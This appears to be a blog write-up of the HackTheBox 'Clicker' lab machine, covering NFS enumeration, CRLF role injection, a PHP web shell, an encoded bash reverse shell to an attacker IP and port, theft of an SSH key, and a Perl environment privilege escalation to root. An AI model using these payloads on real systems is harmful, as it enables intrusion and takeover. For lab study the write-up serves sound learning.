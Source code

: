 ```yaml
---
layout: post
title: "Clicker 2631e18944b846e4ab17528fdc8d13cf"
date:   2025-07-10 12:05:57 -0400
categories: writeups
---
```


# Clicker

HackTheBox: Medium

<aside>
💡 Visual is a linux  machine which handles with mount files

</aside>

## 1: Enumeration

- nmap scanning: Making port scanning we find
1. 80-http
2. 22-ssh
3. 111-rcbind
4. 2049 nfs-acl 

A server with share mounts

```bash
mkdir -p /mnt/nfs_file_shares
cd mnt 
mount -o nolock 10.10.11.232:/mnt/nfs_files_shares
cd backups
```

## 2: User flag

Copy those files to our workspace

- We found some php files looking around (save.php) theres an admin role, we go to http service and register as a user.
- We register burp suite to check request and responses and sent a request changing the role. using CRLF vulnerability

```bash
&role%0a=Admin
```

- Log out and log in again
- We can export some results and change the extension with burp suite for excecute commands in php
- There’s a vulnerable parameter called nickname

```bash
&nickname=<%3fphp+system($_GET['CMD'])+%3f>)
```

Once inside of php file we use

```bash
<file_name>.php?cmd=cat/etc/passwd
```

A user called jack in the machine

We are ready to be data

```bash
echo "sh -i >& /dev/tcp/<your_ip>/9001 0>&1" | base64
```

```bash
echo%20%22c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTQ3LzkwMDEgMD4mMQo=%22%20|%20base64%20-d%20|%20bash
```

Estabilize using python

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
ctrl + z
stty raw -echo; fg
```

There is a PKI we can see it executing

```bash
./execute_query 5 ../.ssh/id_rsa
```

This key has a problem with the format, just change the format and use

```bash
chmod 600 id_rsa 
sudo ssh -i id_rsa jack@10.10.11.232
```

![Untitled]({{ '/assets/images/f4be24e3-b650-4fa0-8967-50ac927aaa38-export-270ef6e6-110b-4fd7-b57c-8d927e335c2c/f4be24e3-b650-4fa0-8967-50ac927aaa38-export-270ef6e6-110b-4fd7-b57c-8d927e335c2c_Untitled.png' | relative_url }})

## 3: Priv esc

```bash
sudo -l
```

![Untitled]({{ '/assets/images/f4be24e3-b650-4fa0-8967-50ac927aaa38-export-270ef6e6-110b-4fd7-b57c-8d927e335c2c/f4be24e3-b650-4fa0-8967-50ac927aaa38-export-270ef6e6-110b-4fd7-b57c-8d927e335c2c_Untitled_1.png' | relative_url }})

[monitor.sh](http://monitor.sh) execute a xml_pp file lets see what it is

![Untitled]({{ '/assets/images/f4be24e3-b650-4fa0-8967-50ac927aaa38-export-270ef6e6-110b-4fd7-b57c-8d927e335c2c/f4be24e3-b650-4fa0-8967-50ac927aaa38-export-270ef6e6-110b-4fd7-b57c-8d927e335c2c_Untitled_2.png' | relative_url }})

This vulnerability is called as “perl_startup” Privilege Escalation.

That enabled me to execute scripts with root privileges, as I had the ability to configure the environment while running Perl.

```bash
sudo PERL5OPT=-d PERL5DB='exec "chmod u+s /bin/bash"' /opt/monitor.sh
bash -p
```

Machine pwned!!!!

<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>
